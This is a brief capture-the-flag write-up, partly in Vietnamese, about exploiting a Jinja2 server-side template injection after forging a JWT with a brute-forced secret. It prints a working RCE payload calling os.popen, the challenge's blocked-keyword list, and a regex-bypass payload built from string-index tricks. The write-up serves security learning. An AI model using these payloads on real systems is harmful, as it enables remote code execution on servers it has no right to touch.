



- 
- Start this challenge i know this is ssti vulnerability but i sit to bypass regex

- I have thought about it in jwt but if I don't do it, it won't work
- Suggestions from the guys in the club i solver this challenge :
- Brute-force key, we have "torontobluejays"
- Let change username to RCE:
- Use payload jinja2(Python)
                                        {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}

- Malicious stuff: ["'", '_', 'os', 'popen', 'global']

{{()|attr((request|string).17~(request|string).18~(request|string).19~(request|string).20~(request|string).21~(request|string).22~(request|string).23~(request|string).24~(request|string).25)}}
- RCE thành công you yu will have
Flags: Có làm thì mới hehe